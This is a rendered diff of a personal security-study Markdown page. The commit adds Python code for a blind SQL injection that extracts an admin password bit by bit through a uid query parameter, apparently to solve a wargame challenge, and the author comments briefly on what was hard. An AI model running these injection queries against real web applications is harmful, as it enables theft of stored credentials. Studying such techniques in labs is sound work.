

Before and after one commit to Hueok/study_security, a Markdown page: sql/sum.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/sql/sum.md
+++ b/sql/sum.md
@@ -184,8 +184,47 @@ def find_length():
         i += 1
 ```
 #### step 2. find bit length of each password character
+```py
+def find_bit_length():
+    bit_length_db=[]
+    for i in range(1, 14):
+        bit_length = 0
+        while True:
+            query = f"admin' and char_length(bin(ord(substr(upw, {i},1)))) = '{bit_length}"
+            resp = requests.get(f"{host}?uid={query}")
+            if 'exist' in resp.text:
+                #print(bit_length)
+                bit_length_db.append(bit_length)
+                break;
+            bit_length+=1
+```
 #### step 3. extract bits of each password character
+```py
+bits_db=[]
+for i in range(1, 14):
+    bits=''
+    for j in range(1, bit_length_db[i-1]+1):
+        query = f"admin' and substr(bin(ord(substr(upw, {i}, 1))),{j},1) = '1"
+        resp = requests.get(f"{host}?uid={query}")
+        if 'exist' in resp.text:
+            bits+='1'
+        else:
+            bits+='0'
+    bits_db.append(bits)
+print(bits_db)
+```
 #### step 4. convert bits to letter
+> To convert bits to letter
+> step 4-1. convert bits to int
+> step 4-2. convert int to Big Endian formed string
+> step 4-3. encoding
+```py
+flag = ''
+for i in range(13):
+    flag += int.to_bytes(int(bits_db[i],2), length=bit_length_db[i]+7 // 8, byteorder='big').decode()
+print(flag)
+```
+
 I didn't think about `step 2` fully, and `step 3` and `step 4` were hard to me to code.
 But the concept of step 2 is important I think. I try without this concept. Thanks to it, I was confused with what bytes the character has.
 So I used for-loop so that the bytes is fixed at one in python exploit code. In fact, ascii only take 1-byte while korean take 3-bytes in utf-8.
````
